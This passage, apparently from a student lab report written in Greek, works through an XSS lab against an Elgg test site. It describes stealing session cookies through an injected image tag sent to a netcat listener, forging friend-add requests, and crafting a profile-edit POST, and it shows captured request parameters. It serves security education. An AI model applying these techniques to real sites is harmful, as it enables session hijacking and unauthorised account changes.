			
\includegraphics[width=1\textwidth]{image/2.6.PNG}		
\end{center}

\section{Κλοπή cookies από το μηχάνημα του θύματος}
\subsection*{Απάντηση:}

\noindent
Αρχικά δημιουργούμε ένα νέο αρχείο.
\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.1.PNG}		
\end{center}
\noindent
Τρέχουμε ένα ifconfig για να βρούμε την ip του μηχανήματος.
Στην συγκεκριμένη περίπτωση είναι το 10.0.2.15, και γράφουμε στο αρχείο
τον παρακάτω κακόβουλο κώδικα οπού μεσώ ενός tag εικόνας οδηγεί το session
cookie του θύματος μας στον server μας. 

\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.2.PNG}		
\end{center}
\noindent
Από την πλευρά του server μας, τρέχουμε την εντολή nc -l 5555 -v οπού 
κάνει listening και περιμένει να του έρθουν τα δεδομένα.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.3.PNG}		
\end{center}
\noindent
μόλις κάνουμε save με το νέο link παρατηρούμε ότι έρχεται το
cookie sesion από τον Samy.
\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.4.PNG}		
\end{center}
\noindent
Συνδεόμαστε από το προφίλ της alice, μόλις το θύμα μπει στο μολυσμένο προφίλ, το cookie sesion του αποστέλλεται στον server μας.
\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.5.PNG}		
\end{center}
\noindent


\section{Πώς γίνεστε φίλοι του θύματος}
\subsection*{Απάντηση:}

\noindent
Για να το πετύχουμε αυτό θα πρέπει να καταλάβουμε πως ακριβός λειτουργεί 
HTTP request που μας προσθέτει σαν φίλους. 
Αρχικά ανοίγουμε το HTTP Header Live συνδεόμαστε στο fake profile Boby που έχουμε δημιουργήσει και κάνουμε μια δοκιμή προσθέτοντας των χρήστη μας 
Samy ως φύλο.
Παρατηρώντας τα request βρίσκουμε ένα που έχει στον τίτλο του το add friend
ανοίγοντας το παρατηρούμε ότι είναι GET Request και μεταφέρει τα δεδομένα
μεσώ του link.
\begin{center}
			
\includegraphics[width=1\textwidth]{image/4.1.PNG}		
\end{center}
\noindent
Το αντιγράφουμε κάπου για να το αναλύσουμε.

\begin{center}
	\begin{lstlisting}	
http://www.xsslabelgg.com/action/friends/add?
friend=47
&__elgg_ts=1590243475
&__elgg_token=Hig1ynb4Sks10KQqyuUvVw
&__elgg_ts=1590243475
&__elgg_token=Hig1ynb4Sks10KQqyuUvVw
	\end{lstlisting}	
\end{center}
\noindent
Παρατηρούμε ότι το request έχει κάποια δεδομένα που επαναλαμβάνονται
και κάποια μοναδικά. Για παράδειγμα το friend id είναι σταθερό, για τον
Samy και είναι το 47. Επόμενος μπορούμε φτιάξουμε ένα ίδιο GET Request.

\noindent
Γράφουμε τον παρακάτω κώδικα.


\begin{center}
			
\includegraphics[width=1\textwidth]{image/4.3.PNG}		
\end{center}
\noindent 
Αλλάζουμε το link.
\begin{center}
			
\includegraphics[width=1\textwidth]{image/4.2.PNG}		
\end{center}
\noindent
Συνδεόμαστε στο προφίλ της Alice. 
\begin{center}
			
\includegraphics[width=1\textwidth]{image/4.4.PNG}		
\end{center}
\noindent
Και πατάμε να δούμε το προφίλ του Samy έχοντας ανοιχτώ το HTTP Header Live.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/4.5.PNG}		
\end{center}
\noindent
Παρατηρούμε ότι χωρίς να κάνουμε τυπωτά έχει σταλθεί ένα HTTP GET request
με τα δεδομένα friend/add? και friend id το 47.
\begin{center}
			
\includegraphics[width=1\textwidth]{image/4.6.PNG}		
\end{center}
\noindent
κοιτάζοντας το profile τις alice παρατηρούμε ότι είναι πλέον φίλοι με τον
Samy
\begin{center}
			
\includegraphics[width=1\textwidth]{image/4.7.PNG}		
\end{center}

\begin{itemize}
	\item Της γραμμές 1 και 2 τις χρησιμοποιούμε για να σχηματίσουμε το 
	τελικό GET Request. Οπός παρατηρήσαμε στο δοκιμαστικό Request που
	διαβάσαμε με το HTTP Header Live είδαμε ότι εκτός από το frien id
	στέλνετε ένα token και ένα timestamp.
	\item Αν η εφαρμογή δεν διέθετε About me θα μπορούσαμε να φορτώσουμε
	τον κώδικα μεσώ κάποιου άλλου πεδίου οπός το brief description καλώντας
	τον κώδικα που έχουμε ανάβαση στον server.
\end{itemize}

\section{Τροποποιώντας το προφίλ του θύματος}
\subsection*{Απάντηση:}
\noindent
Για να τροποποιήσουμε το προφίλ θα πρέπει πάλι να κατανοήσουμε τη ακριβός
στέλνετε όταν κάνουμε save στον server. 

\begin{center}
			
\includegraphics[width=1\textwidth]{image/5.0.1.PNG}		
\end{center}
\noindent
Χρησιμοποιούμε πάλι το προφίλ του
Boby για να δούμε τι γίνετε. Παρατηρούμε ότι όταν πατάμε save 
στέλνεται ένα request από το /edit το οποίο αυτήν την φορά είναι POST.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/5.0.2.PNG}		
\end{center}
\noindent
Το αντιγράφουμε κάπου για να το αναλύσουμε και αυτό


\begin{center}
			
\includegraphics[width=1\textwidth]{image/5.0.3.PNG}		
\end{center}

\begin{center}
	\begin{lstlisting}	
__elgg_token=2FKTGCI94TaPhODDB2k7cg
&__elgg_ts=1590314636
&name=Boby
&description=
&accesslevel[description]=2
&briefdescription=BOBY IS THE BEST
&accesslevel[briefdescription]=2
&location=
&accesslevel[location]=2
&interests=
&accesslevel[interests]=2
&skills=
&accesslevel[skills]=2
&contactemail=
&accesslevel[contactemail]=2
&phone=
&accesslevel[phone]=2
&mobile=
&accesslevel[mobile]=2
&website=
&accesslevel[website]=2
&twitter=
&accesslevel[twitter]=2
	\end{lstlisting}	
\end{center}
\noindent
Παρατηρούμε όλα τα πεδία και βλέπουμε πάλι ότι έχει κάποια σταθερά δεδομένα
και κάποια που μεταβάλλονται και κάποια που είναι ίδια με το προηγούμενο
οπός το token και το ts. 
Επόμενος με τον παρακάτω κώδικα φτιάχνουμε το POST request.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/5.1.PNG}		
\end{center}
\noindent
Αλατίζουμε το link.
\begin{center}
